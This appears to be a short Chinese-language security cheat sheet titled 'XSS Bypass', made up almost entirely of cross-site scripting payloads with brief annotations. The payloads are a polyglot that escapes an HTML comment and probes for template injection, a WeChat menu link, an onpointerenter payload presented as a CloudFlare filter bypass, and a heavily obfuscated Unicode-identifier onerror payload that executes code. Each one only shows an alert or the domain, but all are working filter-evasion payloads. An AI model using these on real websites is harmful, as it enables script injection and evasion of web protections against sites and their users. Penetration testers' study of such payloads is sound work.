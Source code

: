 ```yaml
---
title: 神秘XSS Bypass
date: 2025-07-22 16:14:14
tags:
---
```


---

```html
'"--><svg/onload=top[30]()>${{4*9}}<script>+alert?.``</script>
```

- top[30] () →不使用
- alert 字词触发 XSS alert? .\`` →可选链 + 模板字面量隐秘 JS 执行
- -->< svg > →跳出 HTML 注释
- $ {{ 4*9 }} → SSTI,CSTI

---

微信XSS

```html
<a href="weixin://bizmsgmenu?msgmenucontent=测试内容&msgmenuid=960">显示内容</a>
```

---

CloudFlare

```html
"><P/onpointerenter=alert(1)>
```

---

```html
"><img/src=x onerror="𐂃='',𐃨=!𐂃+𐂃,𐂝=!𐃨+𐂃,𐃌=𐂃+{},𐁉=𐃨[𐂃++],𐃵=𐃨[𐂓=𐂃],𐀜=++𐂓+𐂃,𐂠=𐃌[𐂓+𐀜],𐃨[𐂠+=𐃌[𐂃]+(𐃨.𐂝+𐃌)[𐂃]+𐂝[𐀜]+𐁉+𐃵+𐃨[𐂓]+𐂠+𐁉+𐃌[𐂃]+𐃵][𐂠](𐂝[𐂃]+𐂝[𐂓]+𐃨[𐀜]+𐃵+𐁉+'(document.domain)')()"
```

---

```html

```
